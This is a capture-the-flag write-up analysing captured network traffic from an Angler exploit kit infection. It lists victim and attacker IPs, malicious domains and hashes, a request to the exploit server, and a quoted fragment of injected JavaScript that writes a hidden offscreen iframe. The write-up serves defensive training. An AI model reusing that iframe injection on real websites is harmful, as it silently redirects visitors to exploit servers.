







[https://cyberdefenders.org/blueteam-ctf-challenges/malware-traffic-analysis-4/](https://cyberdefenders.org/blueteam-ctf-challenges/malware-traffic-analysis-4/)


---


_d16ad130daed5d4f3a7368ce73b87a8f84404873cbfc90cc77e967a83c947cd2_


CVE-2011-3230





## Basic triage {#3467b0eb61a4804d8554cf2a65f7f522}


Using wireshark statistics → conversation and networkminer


| 10.1.25.119 [Turkey-Tom] [TURKEY-TOM] (Windows) | 184.28.198.107 | `184.28.198.107 [e7650.x.akamaiedge.net] [cabelas.com.edgekey.net] [www.cabelas.com] [assets.cabelas.com] [images.cabelas.com]`                                                          |
| ----------------------------------------------- | -------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
|                                                 | 162.216.4.20   | `162.216.4.20 [neuhaus-hourakus.avelinoortiz.com]`                                                                                                                                       |
|                                                 | 74.125.226.180 | 74.125.226.180 [www.google.com]                                                                                                                                                          |
|                                                 | 23.235.40.193  | 23.235.40.193 [imgur.com] [i.imgur.com]                                                                                                                                                  |
|                                                 | 23.9.102.155   | 23.9.102.155 [e7090.a.akamaiedge.net] [sportsmansguide.com.edgekey.net] [www.sportsmansguide.com] [image.sportsmansguide.com]                                                            |
|                                                 | 192.229.163.16 | `192.229.163.16 [cs464.wac.upsiloncdn.net] [i262.photobucket.com] [i781.photobucket.com]`                                                                                                |
|                                                 | 184.84.243.49  | 184.84.243.50 [a767.dspw65.akamai.net] [download.windowsupdate.com.edgesuite.net] [www.download.windowsupdate.com] [a1859.g1.akamai.net] [e.monetate.net.edgesuite.net] [e.monetate.net] |
|                                                 | 184.84.243.50  | 184.84.243.50 [a767.dspw65.akamai.net] [download.windowsupdate.com.edgesuite.net] [www.download.windowsupdate.com] [a1859.g1.akamai.net] [e.monetate.net.edgesuite.net] [e.monetate.net] |
|                                                 | 95.211.205.229 | `95.211.205.229 [ncqauqvqqhhzpc.com]`                                                                                                                                                    |


### Q1 What is the victim IP address? {#3467b0eb61a4804384f9c3ce38308690}


10.1.25.119 [Turkey-Tom] [TURKEY-TOM] (Windows) has the most connection session and packet bytes





### Q2 What is the victim's hostname? {#3467b0eb61a480f7aa48cfd6bbaf71e3}


Turkey-Tom


### Q3 What is the exploit kit name? {#3467b0eb61a4807fa873e4a0e55c28a3}


Tìm hash đã cho 


The string `d16ad130daed5d4f3a7368ce73b87a8f84404873cbfc90cc77e967a83c947cd2` is **a SHA256 hash representing a malicious executable file, frequently associated with the Angler Exploit Kit**. It was featured in a 2015 malware traffic analysis exercise (Goofus and Gallant)


You can also export the swf file and use open source intelligence to find out.


### Q4 What is the IP address that served the exploit? {#3467b0eb61a4808587f7e3b94495b072}


in HTTP export, search for suspicious shockwave flash file





utilize this finding in networkminer





Check the hash on virustotal: c6117897267123cf1e3e8df08b1c7a09





> `162.216.4.20`


### Q5 What is the c that is used to indicate the flash version? {#3467b0eb61a48095bbdcd44c63a1e410}


I did a google search


The HTTP header typically used by Adobe Flash Player to indicate its version is **`x-flash-version`**


### Q6 What is the malicious URL that redirects to the server serving the exploit? {#3467b0eb61a48039a676d566cb812752}


Filter: `http && ip.addr==162.216.4.20` and check the referer field


```c++
GET /forums/viewforum.php?f=15&sid=0l.h8f0o304g67j7zl29 HTTP/1.1
Accept: text/html, application/xhtml+xml, */*
Referer: http://solution.babyboomershopping.org/respondents/header.js
Accept-Language: en-US
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko
Accept-Encoding: gzip, deflate
Host: neuhaus-hourakus.avelinoortiz.com
Connection: Keep-Alive
```


>  `http://solution.babyboomershopping.org/respondents/header.js`


### Q7 What is The CAPEC ID corresponding to the technique used to redirect the victim to the exploit server? More info at capec.mitre.org {#3467b0eb61a480a49b82f20d010e01aa}


Also did a google search


`CAPEC-222`, or **iFrame Overlay**, is **a MITRE-defined cyberattack pattern where an attacker tricks a user into clicking invisible or transparent elements in a malicious iFrame, triggering unintended actions on a legitimate, authenticated website**. It is commonly synonymous with **Clickjacking** or UI redressing, aiming to bypass security by abusing user trust.

	- The iframe size is often set to 1x1 pixel, or/and it’s opacity is decreased

### Q8 What is the FQDN of the compromised website? {#3467b0eb61a4807c8e12fc304d27380f}


```powershell
http.host==solution.babyboomershopping.org
```





and look for referer


`www.shotgunworld.com/`


### Q9 The compromised website contains a malicious js that redirect the user to another website. What is the variable name passed to the "document.write" function? {#3467b0eb61a480b585f8d2736d0f5a54}


i used http contains "document.write” and check for the first packet that redirect user to the malicious website


```powershell
 [truncated]OX_7f561e63 += "<"+"iframe style=\"position:absolute;left:-3060px;top:-4000px;width:360px;height:357px;\" src=\"http://solution.babyboomershopping.org/respondents/header.js\\"<"+"/iframe><"+>"a href=\'http://www.shotgunworld.com
```





> OX_7f561e63


### Q10 What is the Compilation Timestamp of the malware found on the machine? Use your host for this question as the machine does not have an internet connection. {#3467b0eb61a48083b139ce0bf81632e1}


check on virustotal with the  hash `d16ad130daed5d4f3a7368ce73b87a8f84404873cbfc90cc77e967a83c947cd2:` 


>  `2007-08-01 18:16:48`

